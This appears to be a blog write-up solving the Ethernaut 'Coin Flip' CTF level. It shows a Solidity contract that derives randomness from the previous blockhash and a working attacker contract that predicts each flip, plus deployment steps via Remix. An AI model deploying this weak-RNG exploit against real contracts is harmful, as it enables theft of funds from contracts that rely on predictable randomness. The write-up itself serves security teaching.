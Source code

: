 ```yaml
---
title: Ethernaut - Coin Flip - Solution
date: '2024-05-05'
tags: ['security', 'solidity', 'ctfs']
draft: false
summary: Solution to the Ethernaut - Coin Flip CTF
---
```


# Ethernaut - Coin Flip - Solution

## Contract

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract CoinFlip {
    uint256 public consecutiveWins;
    uint256 lastHash;
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    constructor() {
        consecutiveWins = 0;
    }

    function flip(bool _guess) public returns (bool) {
        uint256 blockValue = uint256(blockhash(block.number - 1));

        if (lastHash == blockValue) {
            revert();
        }

        lastHash = blockValue;
        uint256 coinFlip = blockValue / FACTOR;
        bool side = coinFlip == 1 ? true : false;

        if (side == _guess) {
            consecutiveWins++;
            return true;
        } else {
            consecutiveWins = 0;
            return false;
        }
    }
}
```

## Solution

The goal of this challenge is to predict the coin flip 10 times in a row.
Looking at the contract, we can see that it uses the previous block's hash as a source of "randomness".
This pattern is what is commonly referred to as "weak random number generation (Weak RNG)" since attackers can simply use the same "random" number generation logic to predict the outcome.

Take, for example, the following attacker contract:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract CoinFlipAttacker {
    // FACTOR = type(uint256).max / 2 + 1
    uint256 public constant FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
    address public immutable VICTIM;

    constructor(address victim) {
        VICTIM = victim;
    }

    function attack() external {
        // Use the same source of "randomness" as the victim contract
        uint256 blockValue = uint256(blockhash(block.number - 1));
        uint256 coinFlip = blockValue / FACTOR;
        bool guess = coinFlip == 1 ? true : false;

        // Flip the coin and provide the correct guess
        (bool success, ) = VICTIM.call(abi.encodeWithSignature("flip(bool)", guess));
        require(success, "Coin flip failed");
    }
}
```

Deploying this contract using [Remix](https://remix.ethereum.org) and providing our victim contract's address in the constructor, we can simply call `attack()` 10 times in a row to win the level.
Note that these 10 calls need to be distributed over 10 different blocks.